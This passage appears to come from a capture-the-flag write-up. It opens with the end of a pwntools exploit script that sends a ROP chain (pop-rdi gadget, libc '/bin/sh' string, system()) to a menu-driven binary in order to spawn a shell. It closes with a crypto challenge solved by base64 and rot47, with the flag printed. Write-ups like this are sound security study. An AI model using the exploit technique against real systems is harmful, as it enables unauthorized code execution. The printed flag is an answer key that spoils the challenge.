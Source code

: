 ```python
p.sendline('1')
p.recvuntil('number\n')
p.sendline('0')

# system('/bin/sh')
p.recvuntil('>\n')
p.sendline('1')
p.recvuntil('number\n')
p.sendline(str(prdi))

p.recvuntil('>\n')
p.sendline('1')
p.recvuntil('number\n')
p.sendline('0')

p.recvuntil('>\n')
p.sendline('1')
p.recvuntil('number\n')
p.sendline(str(binsh_libc))

p.recvuntil('>\n')
p.sendline('1')
p.recvuntil('number\n')
p.sendline(str(binsh_libc>>32))

p.recvuntil('>\n')
p.sendline('1')
p.recvuntil('number\n')
p.sendline(str(system_libc))

p.recvuntil('>\n')
p.sendline('1')
p.recvuntil('number\n')
# gdb.attach(p)
p.sendline(str(system_libc>>32))

p.recvuntil('>\n')
p.sendline('4')

p.interactive()

```

## Crypto
### CheckIn
 - base64 + rot47
 - `dikqTCpfRjA8fUBIMD5GNDkwMjNARkUwI0BFTg==`
 - `v)*L*_F0<}@H0>F49023@FE0#@EN`
 - `GXY{Y0u_kNow_much_about_Rot}`
